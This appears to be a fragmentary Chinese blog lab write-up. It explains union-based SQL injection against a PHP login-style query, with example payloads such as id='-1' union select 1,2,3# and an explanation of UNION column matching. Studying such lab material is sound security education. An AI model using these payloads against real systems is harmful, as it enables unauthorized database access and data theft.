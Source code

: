 ```php
```

如果我们直接传入错误的



<img src="https://i-blog.csdnimg.cn/blog_migrate/965c5f7156fe03b2c927751444b7cc7a.png" alt="" style="max-height:237px; box-sizing:content-box;" />


因为我们可以直接在linux命令行中执行

```cobol
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ab252a8c256abbed67070dc407fc9861.png" alt="" style="max-height:128px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/08a01a3c52dc5924a74b34c5559334e7.png" alt="" style="max-height:205px; box-sizing:content-box;" />


发现是一样的

```cobol
SELECT * FROM users WHERE id='1' union select 1,2,3#' LIMIT 0,1 ;
```

我们尝试联合查询 union



<img src="https://i-blog.csdnimg.cn/blog_migrate/a0acffca8f56e40aa783361947a6a717.png" alt="" style="max-height:165px; box-sizing:content-box;" />


但是这个是因为第一条查询到了 然后返回第二条

我们如何只看第二条呢 只要让第一条找不到就可以了

```cobol
SELECT * FROM users WHERE id='-1' union select 1,2,3#' LIMIT 0,1 ;
```

这里只需要 将id设置为数据库不存在的即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/f811b2c9b4eb61d58ed1f45fe31f3e3c.png" alt="" style="max-height:143px; box-sizing:content-box;" />


这里有一个很重要的问题

```cobol
我们先需要了解 union是 怎么查询的
 
SELECT column1, column2, ... FROM table1
UNION
SELECT column1, column2, ... FROM table2;
 
首先要保证两个查询的column数是一样的
 
假如
SELECT id, name, age FROM students WHERE id = 100
UNION
SELECT id, name, age FROM teachers WHERE id = 200;
 
 
但是没有 id=100的数据
 
但是，由于第二个 SELECT 查询的列数和数据类型与第一个查询的结果集相同
UNION 运算符会返回第二个 SELECT 查询的结果，只要它的 WHERE 子句中的条件满足。
 
因此，在使用 UNION 运算符组合两个 SELECT 查询时，只要它们的列数和数据类型相同
```